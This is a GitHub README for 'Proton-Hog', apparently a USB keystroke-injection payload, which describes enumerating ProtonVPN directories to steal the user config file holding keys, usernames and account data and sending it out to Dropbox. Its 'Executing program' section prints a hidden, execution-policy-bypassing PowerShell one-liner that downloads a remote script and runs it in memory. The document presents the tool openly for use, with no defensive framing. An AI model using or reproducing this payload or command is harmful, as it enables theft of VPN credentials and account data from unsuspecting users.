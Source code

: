 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;Proton+Hog!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Proton-Hog

A payload to exfiltrate the user config file of Proton VPN that contains keys and usernames as well as acount information.

## Description

This payload will enumerate through the ProtonVPN directories, looking for the file that stores the userconfig file

Then dropbox will be used to exfiltrate the files to cloud storage

## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

atomiczsec

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
